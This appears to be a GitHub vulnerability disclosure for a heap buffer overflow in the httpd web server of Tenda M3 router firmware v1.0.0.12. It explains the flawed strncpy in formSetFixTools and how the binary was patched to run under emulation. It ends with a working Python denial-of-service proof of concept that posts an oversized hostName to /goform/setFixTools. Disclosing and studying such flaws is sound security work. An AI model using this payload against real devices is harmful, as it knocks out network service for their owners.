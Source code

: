# Tenda M3 contains heap Overflow Vulnerability

## overview

- type: heap overflow vulnerability

- supplier: Tenda https://www.tenda.com 

- product: TendaM3 https://www.tenda.com.cn/product/M3.html

- firmware download:   https://www.tenda.com.cn/download/detail-3133.html

- affect version: TendaM3 v1.0.0.12(4856)

## Description

### 1. Vulnerability Details

the `httpd` in directory `/bin` has a heap buffer overflow. The vunlerability is in fucntion `formSetFixTools` 

It calls `malloc(0x28Cu)` to allocate heap buffer, and it  copies POST parameter`hostname` tp heap buffer. 

![image-20220819202935428](readme.assets/image-20220819202935428.png)

If v3 > 0x50, that will cause heap overflow due to `strncpy(v1, v2, c3)`

### 2. Recurring loopholes and POC

use qemu-arm-static to run the `httpd`, we need to patch it before run. 

- in `main` function, The `ConnectCfm` function didn’t work properly, so I patched it to `NOP` 
- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login

poc of DOS(deny of service)

```python
import requests

data = {
    "networkTool": "1", 
	"hostName": "a"*0x100
}
cookies = {
    "user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setFixTools", data=data, cookies=cookies)
print(res.content)
```

![image-20220819203425521](readme.assets/image-20220819203425521.png)

![image-20220819203512721](readme.assets/image-20220819203512721.png)